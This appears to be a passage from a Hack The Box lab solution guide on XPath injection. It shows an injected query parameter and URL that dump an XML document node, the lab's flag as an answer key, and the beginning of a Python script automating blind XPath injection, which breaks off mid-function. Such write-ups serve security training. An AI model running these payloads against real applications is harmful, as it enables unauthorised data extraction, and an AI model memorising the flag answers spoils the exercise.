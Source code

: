# XPath - Advanced Data Exfiltration

## Question 1

### "Try to use what you learned in this section to exfiltrate the flag."

After spawning the target machine and visiting its root webpage, students need to iterate through the entire XML document, to find the flag `HTB{8554c935443fec279d139a021539ea0a}` at `/*[1]/*[2]/*[3]/*[1]/*[3]`:

Code: xpath

```xpath
q=INVALID&f=fullstreetname|/*[1]/*[2]/*[3]/*[1]/*[3]
```

Code: http

```http
http://STMIP:STMPO/index.php?q=INVALID&f=fullstreetname|/*[1]/*[2]/*[3]/*[1]/*[3]
```

![[HTB Solutions/CWEE/z. images/5dcb28a298d77b107597658f9203d1a4_MD5.jpg]]

Answer: `HTB{8554c935443fec279d139a021539ea0a}`

# XPath - Blind Exploitation

## Question 1

### "Try to use what you learned in this section to exfiltrate the flag."

Students need to develop a script to automate the exfiltration of the entire XML document:

Code: python

```python
import requests, sys, string

URL = "http://STMIP:STMPO/index.php"
POSITIVE_STRING = "Message successfully sent!"

# return true if positive result, return false if negative result
def inject(payload):
	payload = f"invalid' or {payload} and '1'='1"
	r = requests.post(URL, data={'username': payload})

	if POSITIVE_STRING in r.text:
		return True
	return False

def exfiltrate_length(subquery, max_length=50):
	for i in range(max_length):
		payload = f"string-length({subquery})={i}"

		if inject(payload):
			return i
	print(f"Unable to determine length of {subquery}")
	sys.exit(0)

def exfiltrate_data(subquery):
	l = exfiltrate_length(subquery)
```